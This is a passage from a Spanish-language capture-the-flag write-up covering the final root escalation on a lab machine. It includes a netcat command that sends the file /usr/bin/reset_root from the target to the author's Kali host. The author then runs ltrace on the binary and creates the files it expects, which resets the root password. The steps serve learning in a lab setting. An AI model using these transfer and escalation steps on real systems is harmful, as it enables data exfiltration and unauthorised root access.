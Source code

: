 ```
nc -w 3 ipanfitrion port < /usr/bin/reset_root
```

-w 3: establece un timeout (tiempo de espera) de 3 segundos. Según la versión de nc, esto afecta:

-- El tiempo máximo que espera al conectar, y/o el tiempo que espera tras EOF antes de cerrar la conexión.
-- (El comportamiento exacto puede variar entre implementaciones de netcat: traditional, GNU netcat, OpenBSD netcat, etc.)

- < /usr/bin/reset_root — redirección de entrada: el fichero /usr/bin/reset_root se lee y su contenido se envía como stdin a nc, por tanto sale por la conexión.

Cuando escribamos el nc en la shell ya abierta, se habrá enviado el fichero reset_root al anfitrión, en mi caso mi kali.

<img width="650" height="107" alt="image" src="https://github.com/user-attachments/assets/f5178a82-8c09-4e47-a43f-005772b02036" />

<img width="318" height="152" alt="image" src="https://github.com/user-attachments/assets/f15e7236-7f7a-4560-a5a4-b56b237c07a8" />

Le damos permisos de ejecución al fichero con:

```
chmod +x reset_root
```
Y ejecutamos con:

```
ltrace reset_root
```
<img width="1296" height="352" alt="image" src="https://github.com/user-attachments/assets/08f8e79b-b03e-41f0-aedc-6dd344e8470a" />

Nos da la pista de 3 ficheros que necesitamos tener, vamos a crearlos de manera manual ya que al no existir los mismos pues podemos hacerlo así con touch y con ello volver a probar el binario.

<img width="687" height="252" alt="image" src="https://github.com/user-attachments/assets/4e68d8de-4fb2-47f6-9a77-923e354d512f" />

Con esto tenemos reiniciada la contraseña del usuario su que ahora es Earth, por lo que finalmente tenemos acceso como root, ahora iniciamos sesión usando

```
su root
```
<img width="723" height="162" alt="image" src="https://github.com/user-attachments/assets/0f08e440-5e49-425b-abdc-30bff353c73f" />

Ya somos root, vamos al directorio del root para buscar la última flag:

<img width="1100" height="833" alt="image" src="https://github.com/user-attachments/assets/f81151b9-6162-4b78-9b8b-14a3d984e277" />

Y con esto completamos la máquina.

## Conclusiones {#conclusiones}

Fue una gran máquina, no muy larga pero muchos días estuve para acabarla, tiene algunas dificultes extras y algunas nuevas técnicas aprendidas como uso más avanzado de netcat o descubrimiento de nuevos binarios.
